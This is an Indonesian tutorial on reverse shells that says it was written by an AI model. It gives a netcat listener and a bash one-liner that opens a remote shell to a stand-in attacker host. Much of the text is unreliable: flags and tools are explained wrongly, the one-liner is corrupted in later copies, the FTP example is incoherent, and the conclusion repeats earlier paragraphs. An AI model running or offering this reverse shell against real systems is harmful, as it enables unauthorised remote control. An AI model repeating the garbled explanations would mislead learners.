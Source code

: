 # Reverse Shell: Apa Itu dan Bagaimana Caranya?

Selama ini, kita telah menggunakan Reverse Shell untuk menjalankan perintah di server lain melalui terminal local. Namun, apakah Reverse Shell hanya berfungsi untuk itu? Tidak! Reverse Shell juga bisa digunakan untuk mengeksekusi perintah pada komputer lain dengan cara meneruskan eksekusi perintah yang sedang berjalan.

Dalam artikel ini, kita akan membahas tentang Reverse Shell dan bagaimana caranya.

## Apa itu reverse shell

Reverse Shell adalah teknik yang digunakan oleh penyerang untuk mengakses dan mengontrol komputer korban melalui jaringan. Teknik ini dilakukan dengan membuat koneksi antara komputer korban dan komputer penyerang, sehingga penyerang dapat menjalankan perintah di komputer korban seperti jika mereka sedang berada di depannya.

Reverse Shell biasanya dilakukan dengan menggunakan program yang disebut "shell", yang memungkinkan pengguna untuk menjalankan perintah sistem operasi melalui antarmuka baris perintah. Dalam kasus reverse shell, penyerang membuat koneksi ke komputer korban dan menggunakan shell untuk mengontrolnya.

## Bagaimana caranya

### Contoh Perintah di Sisi Attacker

Perintah `nc -lnvp 5000` digunakan oleh attacker untuk menjalankan perintah di sisi target. Perintah ini berfungsi sebagai server yang mengambil input dari target dan menjalankannya.

Contoh perintah `nc -lnvp 5000`:
```bash
nc -lnvp 5000
```
- `nc` adalah nama perintah yang digunakan untuk menjalankan `tcpdump`.
- `-l` berarti "listen". Ini membuat server.
- `-n` berarti "no-pipelining". Ini mengaktifkan pipelining TCP.
- `-v` berarti "verbose". Ini menampilkan informasi tambahan.
- `5000` adalah port yang digunakan oleh server.

### Contoh Perintah di Sisi Target

Perintah `bash -i >& /dev/tcp/attacker.porn/5000 0>&1` digunakan oleh target untuk menjalankan perintah yang dijalankan oleh attacker. Perintah ini berfungsi sebagai client yang mengirim input ke server dan menampilkan outputnya.

Contoh perintah `bash -i >& /dev/tcp/attacker.porn/5000 0>&1`:
```bash
bash -i >& /dev/tcp/attacker.porn/5000 0>&1
```
- `bash -i` berarti "run shell interactively". Ini membuka shell yang dapat menerima input dan menampilkan output.
- `>& /dev/tcp/attacker.porn/5000 0&&1` adalah pipelining TCP. Ini mengirim input ke server dan menampilkan outputnya.

### Contoh Penggunaan

Berikut contoh penggunaan perintah di sisi attacker dan target:

1. Attacker membuka terminal dan menjalankan `nc -lnvp 5000`.
2. Target mengirim input ke server dengan menggunakan perintah `bash -i >& /dev/tcp/attacker.porn/5000 0&&1`.
3. Server menjalankan perintah yang diirikan oleh target dan menampilkan outputnya.

Sebagai contoh, attacker menggunakan `nc -lnvp 5000` untuk menjalankan perintah di sisi target yang membuka file terbaru dari server FTP. Target mengirim input ke server dengan menggunakan perintah `ftp ftp.example.com`. Server menjalankan perintah yang diirikan oleh target dan menampilkan daftar file-file terbaru di server FTP. Target kemudian memilih file yang ingin ia unduh dan menggunakan `get filename` untuk mendownloadnya ke komputernya.

## Kesimpulan

Perintah `nc -lnvp 5000` digunakan oleh attacker untuk menjalankan perintah di sisi target. Perintah ini berfungsi sebagai server yang mengambil input dari target dan menjalankannya. Di sisi target, kita bisa menggunakan `bash -i >& /dev/tcp/attacker.porn/5000 0&&1` untuk menjalankan perintah yang dijalankan oleh attacker dan menampilkan outputnya.

Sebagai contoh, attacker menggunakan `nc -lnvp 5000` untuk menjalankan perintah di sisi target yang membuka file terbaru dari server FTP. Target mengirim input ke server dengan menggunakan perintah `ftp ftp.example.com`. Server menjalankan perintah yang diirikan oleh target dan menampilkan daftar file-file terbaru di server FTP. Target kemudian memilih file yang ingin ia unduh dan menggunakan `get filename` untuk mendownloadnya ke komputernya.

`note : artikel ini di tulis oleh sebuah model AI bernama juriko chan`

